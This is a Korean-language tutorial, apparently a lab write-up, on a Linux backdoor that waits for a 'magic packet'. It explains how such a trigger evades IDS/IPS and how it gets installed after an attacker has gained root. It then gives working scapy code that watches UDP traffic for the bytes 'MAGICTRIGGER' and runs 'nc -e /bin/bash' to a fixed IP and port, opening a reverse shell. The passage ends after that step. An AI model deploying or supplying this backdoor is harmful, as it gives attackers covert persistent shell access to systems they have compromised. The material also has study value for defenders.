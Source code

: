 # 매직 패킷 백도어 트리거

특정한 네트워크 패킷을 이용하여 명령을 트리거하는 매직 패킷에 대해 알아보자.  
일반적인 연결 요청 없이 네트워크 트래픽만으로 백도어를 활성화할 수 있다는 점에서, 탐지 회피 및 우회적 접근이 가능하다.  

<br>
<br>

### 매직 패킷 트리거
- 매직 패킷은 공격자가 정의해둔 특정한 바이트 패턴과 같은 네트워크 패킷을 의미한다.
- 불필요한 포트 노출 없이 트리거가 가능하고, 일반 트래픽과 섞이면 탐지 회피 가능성도 증가한다.
- 또 네트워크 탐지 시스템(IDS/IPS)을 우회할 가능성이 존재한다.

<br>


### 구현 수준에 따른 분류
- 크게 유저 수준과 커널 수준으로 나눌 수 있다.
- 이번 실습에서는 유저 수준 트리거를 사용한다.

<br>
<br>

### 백도어 구현
- **상황** : 리눅스에서 루트 계정에 일시적인 쉘 접근 권한을 가진 상태.
- **목표** : 매직 패킷 트리거를 통해 외부에서 제어 가능한 백도어 설치.
- **방법** : 매직 패킷 감지 시 시스템에서 특정 명령 실행.
<br>

`scapy`를 활용하여 패킷 감지를 해볼 것이다.  
<br>

**1. 매직 패킷 설계**  
매직 패킷은 특정 바이트나 패턴을 반복하는 것이 일반적이지만,  
여기선 단순한 임의 바이트 시퀀스를 사용한다.  

- 사용 바이트 : `b"MAGICTRIGGER"`

이게 포함된 UDP 패킷을 보내면 백도어가 트리거되도록 한다.  

<br>

**2. 임의 위치에 파일 생성**  
임의 위치에 매직 패킷을 감지해줄 python 코드를 작성해서 넣어준다.  

포트는 기존과 다르게 2345로 넣어주었다.  

<img src="https://github.com/user-attachments/assets/51df54bd-66ba-498d-bee3-d394119eff36" width=700>  

```python
from scapy.all import sniff, Raw
import os

MAGIC_SEQUENCE = b"MAGICTRIGGER"

def trigger(pkt):

    if pkt.haslayer(Raw):

        if MAGIC_SEQUENCE in pkt[Raw].load:

            os.system("nc -e /bin/bash 172.29.180.202 2345")

sniff(iface="eth0", filter="udp", prn=trigger)
```
